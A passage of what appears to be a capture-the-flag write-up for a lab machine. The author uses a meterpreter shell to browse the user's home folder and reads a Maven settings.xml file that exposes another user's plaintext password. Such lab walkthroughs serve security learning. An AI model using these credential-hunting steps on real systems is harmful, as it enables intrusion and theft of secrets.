 Since the current user, which is running the web application is frank, there must be some interest in frank home folder :

```shell
meterpreter > cd /home/frank
meterpreter > ls
```

Result:

```text
Listing: /home/frank
====================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
020666/rw-rw-rw-  0       cha   2023-04-10 21:04:50 +0200  .bash_history
100644/rw-r--r--  3786    fil   2022-04-18 08:18:26 +0200  .bashrc
040700/rwx------  4096    dir   2023-02-01 19:38:34 +0100  .cache
040700/rwx------  4096    dir   2023-04-11 03:17:46 +0200  .gnupg
040755/rwxr-xr-x  4096    dir   2023-02-01 19:38:34 +0100  .local
040700/rwx------  4096    dir   2023-02-01 19:38:34 +0100  .m2
100644/rw-r--r--  807     fil   2020-02-25 13:03:22 +0100  .profile
```

The `.m2` folder is used for the java compilation to store some maven configuration, and contains the file `settings.xml`:

```shell
meterpreter > cd .m2
meterpreter > ls
```

Result:

```text
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100640/rw-r-----  617   fil   2023-01-31 17:55:58 +0100  settings.xml
```

```shell
meterpreter > cat settings.xml 

```

Result:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
